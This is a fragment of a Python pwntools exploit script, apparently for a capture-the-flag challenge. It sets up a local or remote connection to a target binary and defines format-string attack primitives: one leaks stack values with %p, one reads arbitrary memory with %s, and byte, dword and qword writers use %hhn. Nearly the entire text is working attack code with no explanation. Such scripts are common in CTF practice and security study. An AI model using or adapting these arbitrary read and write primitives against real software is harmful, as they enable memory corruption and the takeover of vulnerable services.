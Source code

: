 ```python
    p = process(local_file)
    libc = ELF(local_libc)
elif len(sys.argv) > 1:
    is_remote = True
    if len(sys.argv) == 3:
        host = sys.argv[1]
        port = sys.argv[2]
    else:
        host, port = sys.argv[1].split(':')
    p = remote(host, port)
    libc = ELF(remote_libc)

elf = ELF(local_file)

# context.log_level = 'debug'
context.arch = elf.arch

se      = lambda data               :p.send(data) 
sa      = lambda delim,data         :p.sendafter(delim, data)
sl      = lambda data               :p.sendline(data)
sla     = lambda delim,data         :p.sendlineafter(delim, data)
sea     = lambda delim,data         :p.sendafter(delim, data)
rc      = lambda numb=4096          :p.recv(numb)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
uu32    = lambda data               :u32(data.ljust(4, '\0'))
uu64    = lambda data               :u64(data.ljust(8, '\0'))
info_addr = lambda tag, addr        :p.info(tag + ': {:#x}'.format(addr))

def debug(cmd=''):
    if is_local: gdb.attach(p,cmd)

def leak_addr(pos):
    sl('LLLLLLLL%%%d$p'%(pos))
    return rc()[8:-1]

def show(addr):
    payload = "%10$s".ljust(24,'S')
    payload += p64(addr)
    sl(payload)
    return rc()

def alter_byte(addr,data):
    if data==0:
        payload = "%10$hhn"
    else:
        payload = "%%%dc%%10$hhn"%(data)
    payload = payload.ljust(24,'T')
    payload += p64(addr)
    sl(payload)
    return rc()

def alter_dw(addr,data):
    alter_byte(addr,data&0xff)
    alter_byte(addr+1,(data>>8)&0xff)
    alter_byte(addr+2,(data>>16)&0xff)
    alter_byte(addr+3,(data>>24)&0xff)

def alter_qw(addr,data):
    alter_dw(addr,data)
    alter_dw(addr+4,data>>32)

def flush(c='F'):
    sl(c*8+'\0'*0x80)
```